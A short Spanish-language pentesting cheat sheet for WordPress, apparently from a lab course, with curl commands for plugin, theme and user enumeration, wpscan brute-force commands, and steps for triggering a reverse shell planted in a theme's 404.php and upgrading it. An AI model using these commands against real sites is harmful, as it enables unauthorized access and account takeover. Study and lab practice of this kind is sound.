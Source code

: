 #### Passive plugins enumeration

    curl -s -X GET http://página | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2

#### Passive themes enumeration

    curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2


#### User Enumeration

Listar de a un usuario:

    curl -s -I -X GET http://blog.inlanefreight.com/?author=1

O la lista de usuarios en un json:

    curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq



### WPSCAN

#### Enumerar todo el sitio y plugins:
        wpscan -url "" --enumerate  --api-token <api-token>
#### BF:
        wpscan -url "" --usernames "" --passwords "dictio"


### Explotar una WP desde la página de error 404
#### Acceder a la pagina php con la shell
        http://"ip o url"/wp-content/themes/"tema"/404.php

si la reverse shell es la monkey, para migrar a una shell más estable:
        python -c 'import pty;pty.spawn("/bin/bash")' 
